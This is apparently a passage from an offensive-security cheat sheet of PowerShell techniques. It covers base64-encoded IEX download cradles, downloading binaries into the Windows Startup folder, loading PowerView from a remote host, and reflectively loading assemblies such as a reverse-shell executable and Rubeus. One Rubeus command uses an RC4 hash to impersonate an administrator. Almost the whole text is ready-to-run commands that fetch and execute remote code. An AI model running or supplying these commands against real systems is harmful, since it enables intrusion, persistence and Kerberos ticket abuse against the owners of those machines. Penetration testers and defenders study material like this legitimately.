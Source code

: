 - Linux: :warning: UTF-16LE encoding is required

    ```ps1
    echo 'IEX (New-Object Net.WebClient).DownloadString("http://10.10.10.10/PowerView.ps1")' | iconv -t utf-16le | base64 -w 0
    ```

## Download file

```ps1
# Any version
(New-Object System.Net.WebClient).DownloadFile("http://10.10.10.10/PowerView.ps1", "C:\Windows\Temp\PowerView.ps1")
wget "http://10.10.10.10/taskkill.exe" -OutFile "C:\ProgramData\unifivideo\taskkill.exe"
Import-Module BitsTransfer; Start-BitsTransfer -Source $url -Destination $output

# Powershell 4+
IWR "http://10.10.10.10/binary.exe" -OutFile "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp\binary.exe"
Invoke-WebRequest "http://10.10.10.10/binary.exe" -OutFile "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp\binary.exe"
```

## Load Powershell scripts

```ps1
# Proxy-aware
IEX (New-Object Net.WebClient).DownloadString('http://10.10.10.10/PowerView.ps1')
echo IEX(New-Object Net.WebClient).DownloadString('http://10.10.10.10/PowerView.ps1') | powershell -noprofile -
powershell -exec bypass -c "(New-Object Net.WebClient).Proxy.Credentials=[Net.CredentialCache]::DefaultNetworkCredentials;iwr('http://10.10.10.10/PowerView.ps1')|iex"

# Non-proxy aware
$h=new-object -com WinHttp.WinHttpRequest.5.1;$h.open('GET','http://10.10.10.10/PowerView.ps1',$false);$h.send();iex $h.responseText
```

## Load C# assembly reflectively

```powershell
# Download and run assembly without arguments
$data = (New-Object System.Net.WebClient).DownloadData('http://10.10.16.7/rev.exe')
$assem = [System.Reflection.Assembly]::Load($data)
[rev.Program]::Main()

# Download and run Rubeus, with arguments (make sure to split the args)
$data = (New-Object System.Net.WebClient).DownloadData('http://10.10.16.7/Rubeus.exe')
$assem = [System.Reflection.Assembly]::Load($data)
[Rubeus.Program]::Main("s4u /user:web01$ /rc4:1d77f43d9604e79e5626c6905705801e /impersonateuser:administrator /msdsspn:cifs/file01 /ptt".Split())

# Execute a specific method from an assembly (e.g. a DLL)
$data = (New-Object System.Net.WebClient).DownloadData('http://10.10.16.7/lib.dll')
$assem = [System.Reflection.Assembly]::Load($data)
$class = $assem.GetType("ClassLibrary1.Class1")
$method = $class.GetMethod("runner")
$method.Invoke(0, $null)
```
